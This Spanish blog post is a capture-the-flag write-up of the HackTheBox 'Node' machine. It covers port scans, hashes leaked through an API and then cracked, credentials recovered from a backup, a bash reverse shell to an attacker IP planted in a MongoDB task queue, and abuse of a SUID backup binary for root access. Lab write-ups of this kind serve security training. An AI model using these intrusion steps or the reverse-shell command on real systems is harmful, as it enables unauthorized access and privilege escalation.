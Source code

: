 ```yaml
---
layout: post
title: "Write Up Node. "
subtitle: "Starting-Point"
category: Blog
tags: [Medium,Chunin,Linux,HTB,API,Cracking,Hashes,SUID,Buffer-Overflow,Javascript,Python,Web,Vulnerability-Assessment,Security-Tools,Reversing,Authentication,NodeJS,Hydra,Binary-Exploitation,Password-Cracking,SUID,Buffer-Overflow,Clear-Text-Credentials,eJPTv2] 
image:
  path: /assets/img/node/Captura%20de%20pantalla%20(326).png
---
```


***
<!--more-->

1. this ordered seed list will be replaced by the toc
{:toc}

***

## Reconnaissance


### nmap


```bash
nmap -p- --open --min-rate 5000-sS -n -vvv -Pn 10.10.10.158 -oA allports
```


![list](/assets/img/node/A-2022-12-22-18-28-51.png){:.lead width="800" height="100" loading="lazy"}


***

### Services and Versions


```bash
nmap -p22,80,443 -sV -sC 10.10.10.158 -oN target
```
![list](/assets/img/node/A-2022-12-22-18-34-38.png){:.lead width="800" height="100" loading="lazy"}


***

## Vulnerability Analysis


### HTTP TCP-80


Uso de Investigacion web, Google Hacking,Google Dorks y recopilación de información gracias a servicios de terceros.e ispeccionamos la web, ademas de las tecnologias de la ip ataves de la terminal o via  web esto lo hacemos con wapalizzer o whatweb.


![list](/assets/img/node/A-2022-12-22-18-33-18.png){:.lead width="800" height="100" loading="lazy"}

Esta maquina tiene el puerto `3000` abierto y en el esta alojado una pagina web, la cual inspecionando en contramos tres usuarios que son `tom`, `mark`, `rastating` los cuales vamos a guardar en un archivo llamado users, tambien con el exploit `ssh enumeration` vamos a validar que usuarios si son validos y solo son validos `tom` y `mark`, ademas vamos a trara de loogearnos y probar algunas injeciones de SQL pero no conseguimos nada.


![list](/assets/img/node/A-2022-12-22-18-33-22.png){:.lead width="800" height="100" loading="lazy"}


Vamoa a probar a fuzzera por directorios y subdominios a lo mejor encontramos algo interesante.


![list](/assets/img/node/A-2022-12-22-19-19-56.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos alguna rutas `vendor`, `uploads` ,`assests`.


Aunque no sirven de nada porque nos redirigen ispecionando la web vemos las peticiones y encontramos una ruta llamada `/api/users/lates` e iremos a husmear alli para ver que encontramos.


![list](/assets/img/node/A-2022-12-22-19-03-22.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
En contramos hashes de los tres usuarios que ya habiamos enumerado.


![list](/assets/img/node/A-2022-12-22-19-06-40.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Si le quitamos `/lates` encontramos hashes de los tres usuarios que ya habiamos enumerado y aparte uno mas llamado `myP14ceAdm1nAcc0uNT`.


Lo que vamos hacer con todos estos hashes es tratar de crackearlos ya sea con `john` o con `crackstation`.


![list](/assets/img/node/A-2022-12-22-19-24-24.png){:.lead width="800" height="100" loading="lazy"}

{:.note}
Las contraseñas son `myP14ceAdm1nAcc0uNT:manchester`, `tom:spongebob`, `mark:snowflake`.


Ya con credenciales vamos a de probar por SSH pero no conseguimos nada tamnbien podemos tratar de loogearno con `myP14ceAdm1nAcc0uNT:manchester` y bualaa lo consegimos, hay backuo dque podemos decargar y lo haremos.


![list](/assets/img/node/A-2022-12-22-19-34-01.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Es un archivo.txt que su contenido esta en base64 en cual decodenado es un archivo.zip


![list](/assets/img/node/A-2022-12-22-19-38-44.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Base64


![list](/assets/img/node/A-2022-12-22-19-41-40.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Desempaquetamos el .zip, pero esta protegido y no sirve ninguna pass asi que usaremos `zip2john`.


Al hash que te suelta zip2john lo guardamos en un archivo llamado hash y a este lo crackeamos con john.


![list](/assets/img/node/A-2022-12-22-19-51-55.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
La contraseña de .zip es `magicword`.


Descomprimiendo encontramos algunos archivos vamos a humear en ellos para ver que encontramos que nos pueda servir, vamos a ispeccionar el archivo `app.js`.


![list](/assets/img/node/A-2022-12-22-19-56-06.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Encontramos unas credenciales `mark:5AYRft73VtFpc84k` que vamos ausar para conectarnos por SSH, Aun no podemos leer la flag pero ya estamos dentro.


Si buscamos por permisos SUID `find \-perm -user root 2>/dev/null` encontramos un binario `/usr/local/bin/backup`, pero solo podemos leerlo pero esta compilado asi que nada y para ejecutarlo debemos convertirno en el usuario `tom`, entonced debemos hacer user-pivoting y si recordamos las contraseñas son tambien de la base de datos `mongodb`.


![list](/assets/img/node/A-2022-12-22-20-11-10.png){:.lead width="800" height="100" loading="lazy"}


```shell
mongo -u 'mark' -p '5AYRft73VtFpc84k' localhost:27017/scheduler
```


{:.note}
Nos conectamos.


![list](/assets/img/node/A-2022-12-22-20-46-38.png){:.lead width="800" height="100" loading="lazy"}


```shell
show collections
```


{:.note}
Escomo tablas en MySQL


```shell
db.tasks.find()
```


{:.note}
Es para buscar datos.


```shell
db.tasks.insert({"cmd": "bash -c 'bash -i >& /dev/tcp/10.10.16.14/443 0>&1'"})
```

{:.note}
Es para insertar datosy debemos estar a la escucha con netcat en el puerto 443.


![list](/assets/img/node/A-2022-12-22-20-47-25.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Nos estamos mandando una reverse-shell como el usuario `tom` y la flag del usuari de bajos privileguios se encuentra en el escritorio.


***

## Exploitation


Siempre es bueno ejecutar `LimEnum` Y `pspy`, para que podamos enumerar más vulnerabilidades que permitan elevar nuestros privilegios al usuario "root", pero como de antes econtramos el binario backuop ahotra ya lo podemos ejecutar pero lo vamos a inspeccionar a bajo nivel con `ltrace` y `strace` por lo que se ve para ejecutarse espera tres valores que son `-q` + `keys` + `ruta` de lo que se va hacer un backup, por lo que vamos a ir probando eso.


![list](/assets/img/node/A-2022-12-22-20-57-56.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/A-2022-12-22-20-58-46.png){:.lead width="800" height="100" loading="lazy"}


Esto nos arroja una cadena en base64 la cual vamos hacerle un `echo "hash" | base64 -d > test.zip` el cual es un archivo comprido que vamos a descomprimir.


![list](/assets/img/node/A-2022-12-22-21-06-35.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/Kali-2022-12-22-22-53-11.png){:.lead width="800" height="100" loading="lazy"}


Con esto en mente vamos ahcer un backup de la carpeta de `/root`.


![list](/assets/img/node/A-2022-12-22-21-21-46.png){:.lead width="800" height="100" loading="lazy"}


![list](/assets/img/node/Kali-2022-12-22-23-00-15.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Pero es un troleo.


Pero si en ves de poner `/root` ponemos `root` y nos situamos en la raiz ya no se debe poner la `/` ahi si funcionara.


![list](/assets/img/node/Kali-2022-12-22-23-01-35.png){:.lead width="800" height="100" loading="lazy"}


{:.note}
Ya podemos, buscar la flag en el escritorio del root.


***

```shell
🎉 Felicitaciones ya has comprometido Node de HackTheBox 🎉
```
{:.centered}
***

***
Back to [Certification eJPTv2 ](2023-07-03-Road-to-eJPTv2.md){:.heading.flip-title}
{:.read-more}
